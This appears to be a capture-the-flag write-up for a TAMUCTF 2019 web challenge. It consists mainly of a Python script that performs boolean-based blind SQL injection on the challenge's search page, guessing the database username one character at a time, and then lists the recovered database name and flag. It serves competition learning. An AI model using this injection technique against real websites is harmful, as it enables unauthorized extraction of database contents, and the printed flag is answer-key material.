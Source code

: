 No SELECT allowed

```
#!/usr/bin/env python
# TAMUCTF 2019 Web2 Bird Box Challenge exploit

import ctfpwn
import urllib

# SELECT table_name FROM information_schema.tables WHERE table_schema="sqlidb"


base_url = "http://web2.tamuctf.com/Search.php?Search=Eggs' and "
resp = ctfpwn.http_get('http://web2.tamuctf.com/Search.php?Search=Eggs')
payload = ''

# """substring("SELECT column FROM information_schema.columns WHERE table_schema=database())",1,{})="{}"--%20-"""
while 'Eggs' in resp:
    for c in ctfpwn.get_character_set(lc=True, uc=True, nb=True, sc=True):
        current_payload = payload + c
        url = base_url + \
            "substring(user(),1,{})='{}'--%20-".format(len(current_payload),
                                                       current_payload)
        resp = ctfpwn.http_get(url)
        if 'Eggs' in resp:
            payload = payload + c
            break
    print payload
```



database name: sqlidb
username: gigem{w3_4r3_th3_4ggi3s}

